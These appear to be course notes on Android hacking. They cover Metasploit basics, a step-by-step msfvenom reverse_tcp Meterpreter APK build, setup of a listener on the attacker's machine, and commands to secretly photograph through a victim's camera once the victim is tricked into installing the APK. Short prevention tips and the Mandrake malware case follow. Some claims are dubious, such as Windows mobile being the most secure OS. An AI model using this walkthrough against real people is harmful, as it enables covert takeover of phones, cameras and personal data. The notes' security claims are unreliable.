

## 13_ Android Hacking

### Certificate

### Android Hacking
- One of the most used mobile operating systems and also one of the most vulnerable
- What is Android hacking?
  - It's as simple as installing an app on your phone, but what kind?
  - A .apk that is malicious and is created by a hacker with the motive to exploit
  - Once you install such an app, hackers get whole control over the phone
- Hackers can access your contacts, call logs, pictures, camera, and a lot more

### Android 
- It's an open-source and Linux-based operating system for mobile devices, such as smartphones and tablets
- Android was developed by the Open Handset Alliance, led by Google and other companies
- Android offers a unified approach to application development for mobile devices, which means developers need only develop for Android and their apps should be able to run on different devices powered by Android

### What is an APK?
- Android Package is the package file format used by the Android operating system for the distribution and installation of mobile apps, mobile games, and middleware
- An APK file is an app created for Android, Google's mobile operating system
- Some apps come pre-installed on Android devices, while other apps can be downloaded from Google Play
- Apps downloaded from Google Play are automatically installed on your device, while those downloaded from other sources must be installed manually

### Why Android?
- Android has evolved over the years and quickly became the dominant mobile platform across the globe; it's one of the most used mobile operating systems
- Talking about stats, Android has a huge share of around 70% in the mobile market, whereas 30% is shared by iOS and Windows respectively
- Having 70% market share gives hackers a lot of stuff to exploit

### Which mobile OS is most secure?
- Windows OS for mobile is the most secure
- Hackers don't put efforts in to exploit it

### Metasploit
- One of the most powerful exploit tools
- Comes in two versions: commercial and free. No major differences between the two
- As an ethical hacker, you will be using "Kali Distribution" which has the Metasploit community version embedded in it along with other ethical hacking tools
- Can be used either with the command prompt or with a web UI
- In Kali: go to Applications -> Exploitation Tools -> Metasploit

### Payloads
- Payload = simple script that hackers use to interact with a hacked system; they'll be able to transfer data to a victim's system
- Can be of three types:
  - Singles: very small and designed to create some kind of communication, then move to the next stage. Example: creating a user
  - Staged: payload that an attacker can use to upload a bigger file onto a victim's system
  - Stages: payload components that are downloaded by Stager's modules. The various payload stages provide advanced features with no size limits, such as Meterpreter and VNC Injection

### Android Hacking
- Requirements:
  - Metasploit framework (we use Kali Linux 1.0.6 in this tutorial)
  - Android smartphone (we use HTC One android 4.4 KitKat)
- Step 1: use metasploit to create an exploit
  - Command: "msfvenom -p android/meterpreter/reverse_tcp LHOST = <localhost> LPORT = <port number> R > filename.apk"
  - msfvenom = command line instance of Metasploit
  - -p = we need to generate a payload
  - android/meterpreter/reverse_tcp = a reverse TCP attack and use this payload
  - LHOST = stands for the local IP on the attack will be executed
  - LPORT = port number on which the attack will be executed. There are 65000 ports. You can choose any random one which is ot used by any major service
  - filename.apk = apk file that you wish to generate, which later will be used for exploitation
- Path
  - apk file generated here: Other Location -> Computer -> var -> www -> html
- Step 2: run the command
  - Command: "service apache2 && service postgresql start"
- Step 3: because our payload is reverse_tcp where the attacker expects the victim to connect back to the attacker machine, the attacker needs to set up the handler to handle incoming connections to the port already specified
  - Type "msfconsole" to go to the Metasploit console
  - Command: "use exploit/multi/handler"
  - This means we will be using Metasploit handler: "set PAYLOAD android/meterpreter/reverse_tcp"
- Step 4: configure the switch for the Metasploit payload
  - "set LHOST <localhost>"
  - "set LPORT <random port>"
  - Command: "exploit"
- Note: will only work when you and the target are connected to the same local network

### Camera Hacking
- Once the exploit is running, all you need to do is install the generated .apk in the victim's device and then you can use many social engineering techniques
- As soon as the victim installs the APK, you will get a whole bunch of commands, using which you can hack contacts, cameras, and more
- Command to hack the cameras: "webcam_list"
- Command to click back camera pic and save to Kali root directory: "webcam_snap 2"

### Prevent Android attacks
- Use a phone that gets frequent security updates and make sure that you apply those frequent security updates as they come
  - iPhones are given frequent security updates from Apple
  - Samsung, HTC, LG, and other Android phone manufacturers are bad at delivering security updates that Google provides
- Be hyper-aware of what apps you are installing on your phone
  - Apple catches a lot of malware before listing on the App Store
  - Google Play Store is more lax about checking software
- Don't get caught by phishing (or spear-phishing) scams
  - Don't click on links from people you don't know
- Be extra careful, extra suspicious, when you are on a public network
- Use strong (meaning long) and unique passwords/passphrases
- Lock your phone with something
  - Such as a PIN, entered shape, fingerprint, retinal scan, face scan

### Real life cases
- Researches from Bitdefenders have shared a detailed white paper on their findings regarding the Mandrake Android malware
- They found the malware available on the Google Play Store disguising at least 7 apps, each bearing a wide user base
- When executed, Mandrake runs stealthily on the victim's device, extracting data, and it also exhibits numerous functionalities to take over the target device
- Reportedly, the malware dubbed Mandrake was active in the wild for at least four years
- During all this time the malware remained undetected all this time only to be caught by Bitdefender in early 2020